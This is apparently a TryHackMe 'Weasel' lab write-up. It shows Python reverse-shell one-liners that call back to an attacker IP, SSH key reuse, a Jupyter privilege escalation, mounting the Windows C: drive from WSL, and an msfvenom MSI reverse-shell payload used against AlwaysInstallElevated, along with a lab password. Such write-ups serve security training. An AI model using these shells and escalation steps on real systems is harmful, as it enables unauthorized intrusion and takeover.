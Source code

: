 ![](../attachment/9f74dd8159c59b7905d0d49a53df7180.png)

Using the token from [[Hacking/TryHackMe/weasel/445]] we can login
Now logging in:![](../attachment/3cb653fb02e9c4065fbdfdfee6b7581e.png)

We can try running a python revshell:
```
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.11.103.226",8000));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")
```
Now we get a shell back running penelope:
```
penelope.py 8000
```
![](../attachment/97280f842e85af79669a0c1b3abab630.png)
We are actually in WSL 

![](../attachment/f362b032a672380b3fc4da4077c66584.png)
We might have ssh keys.

Infact it is an ssh key:
![](../attachment/3af8296124d41d1735c1a2ebecceddf5.png)


Now trying to login:
```
ssh dev-datasci-lowpriv@10.10.223.102 -i id_ed25519
```
We are in:
![](../attachment/eea46db1b184e0dd24561de4f695fcef.png)

Now resuming the jupyter privesc:
![](../attachment/c5d5f80be3b1e461d4a9a19a31374d30.png)
There isnt a file like that.

Now finding jupyter
```
locate jupyter
```
![](../attachment/d128f53905d898f2287239f78f26ffb3.png)

We can copy one of these:
```
cp /home/dev-datasci/anaconda3/bin/jupyter /home/dev-datasci/.local/bin/jupyter
```
Now we can run jupyter console:
![](../attachment/4344dcef5eb237d24d74c5ca510bb9f7.png)

Now trying the revshell command again:
```
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.11.103.226",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")
```
![](../attachment/a4b9e518c5d33ad22feebeb58eff0f12.png)
Now we get a shell in  penelope:
```
penelope.py 443
```
![](../attachment/497972bab4e7552a3cba5e852d571237.png)
We are root.
Now mount c:/ drive in linux:
```
mount -t drvfs 'c:' /mnt/c
```
![](../attachment/179f58b89f7cd495fef4dae7b82f6ba6.png)
We can get the flag from administrator desktop.
![](../attachment/803de917270b469bfaa5e02e5a74d879.png)

# Method 2

Alwaysinstallelevated is turned on.
![](../attachment/f689dd030687dc0b29ae334394afa080.png)

We have credentials as well:
![](../attachment/1987628ceac4acede00d16a52bb61b6e.png)
Craft a payload:
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.11.103.226 LPORT=8000 -f msi > setup.msi
```

```
 runas /user:dev-datasci-lowpriv "msiexec /quiet /qn /i C:\Users\dev-datasci-lowpriv\setup.msi"
```
Now enter the password `wUqnKWqzha*W!PWrPRWi!M8faUn`
![](../attachment/d6c5f71d59910f411c83fca07fe2a885.png)
Now we get an elevated shell.
